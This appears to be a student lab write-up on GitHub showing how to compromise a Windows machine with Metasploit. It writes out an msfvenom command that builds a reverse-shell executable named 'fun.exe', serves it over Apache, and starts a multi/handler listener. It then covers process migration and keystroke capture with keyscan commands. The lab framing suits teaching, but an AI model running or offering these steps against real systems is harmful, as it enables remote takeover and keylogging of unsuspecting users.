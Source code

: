 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:


Find the attackers ip address using ifconfig



![{3424BE28-66DF-47AA-B62D-A4C3D46A49E7}](https://github.com/user-attachments/assets/d39170cb-ae83-4e56-8a8a-2d39c7364170)



Create a malicious executable file fun.exe using msfvenom command


msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe


![{82C3B552-FFA8-44E1-A54C-BC3D3FCE8738}](https://github.com/user-attachments/assets/b87cdb49-50a5-42d3-9381-ad0d1cc985c6)


copy the fun.exe into the apache /var/www/html folder


![{1CCEB4E8-D88B-4EA0-AB56-5497B1B366F9}](https://github.com/user-attachments/assets/2f8dee6b-7453-4ba6-bc32-0cc20c7c3f16)



Start apache server


sudo systemctl apache2 start

![{4B01427D-3EE4-49D5-B9F4-5D008690DFE5}](https://github.com/user-attachments/assets/2cb87178-558b-4759-bbf7-d42185fc3507)


Check the status of apache2


![{56B70F00-52BB-4853-B38F-B9572A436F33}](https://github.com/user-attachments/assets/99d117e3-2a0a-4201-b804-45d20a402459)


Invoke msfconsole:


![{0127CD56-6237-4EF8-916E-84EB20ED1F1C}](https://github.com/user-attachments/assets/04afa8b9-fc04-4ce8-b192-1f6091fa909e)


Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.



![{1701D860-73ED-40A2-8956-1C111C9715BE}](https://github.com/user-attachments/assets/8762ea2b-2997-4677-80de-0349418dc377)


Starting a command and control Server


use multi/handler


set PAYLOAD windows/meterpreter/reverse_tcp


set LHOST 0.0.0.0


exploit


![{732CC25B-2340-4B26-A4DD-A3A6F53E9B5A}](https://github.com/user-attachments/assets/2488740a-eae6-4cb7-bc98-ced2a35e38f8)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP 


address of your Kali machine:


http://192.168.1.2/fun.exe


The file "fun.exe" downloads. 


![{88B12FA3-F48D-4C84-888B-FC8E24DB9AB0}](https://github.com/user-attachments/assets/df6b2137-4570-4d70-9714-46882d54a171)




![{5C817246-750A-44B2-91E8-187FD4DD6886}](https://github.com/user-attachments/assets/2c5ee8f1-6368-4caf-a3f5-e386a498bf8c)


To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.



![image](https://github.com/user-attachments/assets/9d525416-77ad-4cb4-b603-7928327334c5)


Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.


![image](https://github.com/user-attachments/assets/1ac801cb-b91f-4f14-80cb-384388677348)


keyscan_dump Shows the keystrokes captured so far


![image](https://github.com/user-attachments/assets/35733c10-3e56-413a-a1ea-c40fb7d54b8d)


## RESULT:
The Metasploit framework for reconnaissance is examined successfully
